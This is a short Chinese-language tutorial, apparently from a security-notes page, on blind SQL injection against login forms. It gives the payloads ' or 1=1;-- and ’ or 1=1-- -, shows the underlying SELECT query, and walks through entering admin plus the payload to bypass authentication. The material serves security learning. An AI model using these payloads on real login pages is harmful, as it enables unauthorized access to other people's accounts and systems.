 # Blind SQLi
## SQL盲注

```
' or 1=1;--
或
’ or 1=1-- -
```
sql盲注用于一些我们看不到回显的登陆页面，我们得到很少甚至没有反馈来确认注入的查询是否真的成功，这是因为错误消息已被禁用，但是无论如何SQL注入仍然有效。
当我们看到这样的页面
![3082583-20230326114105703-2118916425](https://github.com/user-attachments/assets/e5d572a7-6044-43f2-adb7-b040a6f1cd1f)
而且url中没有？时，这种实际上相当于：
```
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

这时我们可以尝试绕过身份验证
在Username下输入admin，在Password下输入 ’ or 1=1 ;--
这相当于：
```
select * from users where username='admin' and password='' or 1=1 ;--' LIMIT 1;
等于
select * from users where username='admin' and password='' or 1=1;
```

因为 1=1 是一个真正的陈述，并且我们使用了 OR 运算符， 这将始终导致查询返回为 true，这满足 数据库发现有效的 Web 应用程序逻辑 用户名/密码组合，并且应允许该访问。
最终我们便绕过了身份验证并登录
